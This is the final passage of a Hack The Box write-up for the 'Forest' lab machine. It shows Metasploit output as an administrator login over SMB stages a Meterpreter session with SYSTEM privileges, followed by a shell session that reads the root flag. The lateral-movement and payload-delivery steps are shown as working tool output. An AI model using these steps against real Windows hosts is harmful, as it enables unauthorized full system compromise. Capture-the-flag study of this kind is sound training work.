 ```
[*] 10.10.10.161:445 - Connecting to the server...
[*] 10.10.10.161:445 - Authenticating to 10.10.10.161:445|htb.local as user 'Administrator'...
[*] 10.10.10.161:445 - Selecting PowerShell target
[*] 10.10.10.161:445 - Executing the payload...
[+] 10.10.10.161:445 - Service start timed out, OK if running a command or non-service executable...
[*] Started bind TCP handler against 10.10.10.161:4464
[*] Sending stage (180291 bytes) to 10.10.10.161
[*] Meterpreter session 1 opened (10.10.14.40:19905 -> 10.10.10.161:4464) at 2020-01-09 23:41:31 -0500
```

Notice the System and User information provided by Meterpreter. After that, let's switch to a "shell" to interactive with the system through Command-Prompt.
```
msf5 > sessions 1
meterpreter > sysinfo
Computer        : FOREST
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > shell
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd c:\Users\Administrator\Desktop

c:\Users\Administrator\Desktop> type root.txt
f0481**********************129cc
```
***Game Over: System Rooted and ROOT Flag found!***

Something important to mention here is, there are other "commands" in Meterpreter to fully own the system even when you  already accessed it as the NT AUTHORITY\SYSTEM, but I am not mentioning them here as the intent is to find the Root Flag. Obviously, I'm limiting the effort to the scope of this exercise; ***find the USER and ROOT flags***!

If you enjoyed my Walkthrough, thought it was useful AND if you are a member of Hack The Box, feel free throw a 'Respect'. Thanks!





